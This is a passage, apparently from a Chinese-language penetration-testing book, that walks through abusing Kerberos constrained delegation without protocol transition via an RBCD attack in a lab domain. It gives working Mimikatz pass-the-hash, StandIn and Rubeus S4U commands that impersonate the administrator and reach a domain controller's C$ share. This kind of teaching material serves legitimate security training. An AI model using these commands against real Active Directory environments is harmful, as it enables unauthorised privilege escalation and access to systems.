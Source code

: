 图 5.38 – 配置了无协议转换的受限委托

在这种情况下，S4U2Self 请求不会导致可转发的票证，因此 S4U2Proxy 将无法工作。滥用无协议转换的受限委托的两种已知方法是：对服务执行 RBCD 攻击，或强制用户对服务进行身份验证以提取票证。为了滥用无协议转换的受限委托，我们将创建一个计算机账户，并将 **castelblack** 设置为允许从该账户进行 RBCD（我们需要 **SYSTEM** 权限来设置此属性）。然后，我们将以 **administrator** 身份委托到 **castelblack**，最后，我们可以在 S4U2Proxy 请求中使用这个可转发的 ST 来访问 **Winterfell** 服务。听起来很复杂，但我们将一步一步执行这个攻击。

在第一步中，我们将创建一个会话作为 **Castelblack$**，创建一个名为 **Test$** 的计算机账户，检索其 **安全标识符**（**SID**），并将 **Castelblack$** 的 **msDS-AllowedToActOnBehalfOfOtherIdentity** 属性设置为 **Test$**。我将使用 Mimikatz、PowerView 和 StandIn：

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:castelblack$ /ntlm:abd0f0459c9d6119d092d1bd87cb958b /domain:north.sevenkingdoms.local /run:cmd.exe"
StandIn.exe --computer Test --make
Get-DomainComputer -Name Test -Properties objectsid
StandIn.exe --computer castelblack --sid S-1-5-21-3600105556-770076851-109492085-1605
```

StandIn 命令的结果如以下截图所示：

![图 5.39 – 创建计算机账户并准备 RBCD 滥用](img/B18964_05_39.jpg)

图 5.39 – 创建计算机账户并准备 RBCD 滥用

接下来，我们将从计算机账户的密码计算出 AES256 密钥，并在 **Castelblack$** 上使用 **Test$** 滥用 RBCD。现在，我们拥有 **Castelblack$** 的可转发 ST：

```
Rubeus.exe hash /domain:north.sevenkingdoms.local /user:test$ /password:yN26WROLQvUCa30
Rubeus.exe s4u /user:test$ /aes256:5D2320ABFAFEA7 A451DC0883CB120047A93E1D38B632D42ACD2997F104D6C30A /impersonateuser:administrator /msdsspn:http/castelblack.north.sevenkingdoms.local /nowrap
```

最后，我们将使用可转发的 ST 来访问 Winterfell 的文件系统：

```
Rubeus.exe s4u /user:castelblack$ /rc4:abd0f0459c9d6119d092d1bd87cb958b /msdsspn:http/winterfell.north.sevenkingdoms.local /tgs:"ticket_from_previous_step" /altservice:cifs /ptt
dir \\winterfell.north.sevenkingdoms.local\c$
```
